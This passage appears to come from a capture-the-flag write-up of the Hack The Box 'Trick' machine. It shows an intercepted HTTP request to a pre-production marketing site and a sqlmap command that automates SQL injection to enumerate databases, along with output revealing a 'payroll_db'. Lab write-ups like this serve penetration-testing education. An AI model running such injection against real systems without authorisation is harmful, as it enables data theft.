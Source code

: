 ![image](/assets/img/trick/save_user.png)

The intercepted request saved as `add_user.req`. Database is `mysql`.

```
GET /index.php?page=save_user HTTP/1.1
Host: preprod-marketing.trick.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://preprod-marketing.trick.htb/index.php?page=services.html
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

#### Automate the sql injection by using sqlmap.
Checking the databases.

**Command**
```
┌──(gemstone㉿hashghost)-[~/C7F5/htb/trick]
└─$ sqlmap -r add_user.req --dbms mysql --dbs --thread 10 --batch  
```
**Result**
```
[21:09:52] [INFO] retrieved: payroll_db
available databases [2]:
[*] information_schema
[*] payroll_db
```
